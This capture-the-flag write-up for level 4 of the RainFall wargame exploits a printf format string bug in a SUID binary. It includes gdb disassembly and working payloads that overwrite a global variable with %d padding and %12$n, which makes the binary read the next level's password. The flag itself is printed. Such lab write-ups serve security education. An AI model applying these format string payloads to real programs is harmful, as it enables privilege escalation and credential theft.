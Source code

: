 # Level 4

## Vulnerability

Printf format string attack with %d

## Context

We find a binary with owner level5 and SUID.
```
level4@RainFall:~$ ls -l
-rwsr-s---+ 1 level5 users 5252 Mar  6  2016 level4
```
The binary seems to do the same thing as in previous levels, read from stdin, and print what is given.
```
level4@RainFall:~$ ./level4
oh hi!
oh hi!
```

## Solution

Investigating with gdb, we find fgets(), unfortunately protected against buffer overflow attack. But printf() may provide our vulnerability, similar to the last level.
```
level4@RainFall:~$ gdb -q level4
...
(gdb) disas main
...
   0x080484ad <+6>:	call   0x8048457 <n>
...
(gdb) disas n
...
...
   0x0804847a <+35>:	call   0x8048350 <fgets@plt>  ; call fgets()
...
   0x08048488 <+49>:	call   0x8048444 <p>          ; call function p() which calls printf()
   0x0804848d <+54>:	mov    0x8049810,%eax	      ; load value of global variable "m" at 0x8049810
   0x08048492 <+59>:	cmp    $0x1025544,%eax        ; compare global variable "m" with 0x1025544
   0x08048497 <+64>:	jne    0x80484a5 <n+78>       ; if false jump past system() call
   0x08048499 <+66>:	movl   $0x8048590,(%esp)      ; load argument "/bin/cat /home/user/level5/.pass"
   0x080484a0 <+73>:	call   0x8048360 <system@plt> ; call system("/bin/cat /home/user/level5/.pass")
...
(gdb) disas p
...
   0x08048450 <+12>:	call   0x8048340 <printf@plt> ; call printf()
```
After calling printf() the binary compares the value of global variable ```m``` at ```0x8049810``` to ```0x1025544``` (16930116 in decimal).
If true a call to system() launches a shell.

Let's use the printf() format string exploit to change the value of variable ```m``` to ```0x1025544```.

First let's print the stack to find the address of the variable we wish to modify.
```
level4@RainFall:~$ (python -c 'print "BBBB" + " %x" * 13' ; cat -) | ./level4
BBBB b7ff26b0 bffff744 b7fd0ff4 0 0 bffff708 804848d bffff500 200 b7fd1ac0 b7ff37d0 42424242 20782520
```
We find buffer BBBB (42424242) in 12th position.

Our target value ```16930116``` is too long for the ```%n``` exploit as used in the last level (%n stores only 4 bytes).
However, we can dynamically specify field width with modifier ```%d```  e.g. ```%16930116d```.

So we build our format string exploit:
1. Address of glabal variable ```m``` (4 bytes)          - "\x10\x98\x04\x08"
2. 16930112 bytes padding using ```%d```                 - "%16930112d"
3. store n bytes printed in 12th argument with ```%n```  - "%12$n"

When we feed our format string attack to the binary it opens a shell and shows us the level5 password.
```
level4@RainFall:~$ (python -c 'print "\x10\x98\x04\x08" + "%16930112d" + "%12$n"' ; cat -) | ./level4
...
                     -1208015184
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

## Recreate Exploited Binary

As user level5, in /tmp, create and compile level4_source.c.
```
level5@RainFall:/tmp$ gcc level4_source.c -fno-stack-protector -o level4_source
```
Edit permissions including suid, then move the binary to home directory.
```
level5@RainFall:/tmp$ chmod u+s level4_source; chmod +wx ~; mv level4_source ~
```
Exit back to user level4, then run the source with an updated address of global variable ```m```.
```
level5@RainFall:/tmp$ exit
exit
level4@RainFall:~$ (python -c 'print "\x28\xa0\x04\x08" + "%16930112d" + "%12$n"' ; cat -) | /home/user/level5/level4_source
```
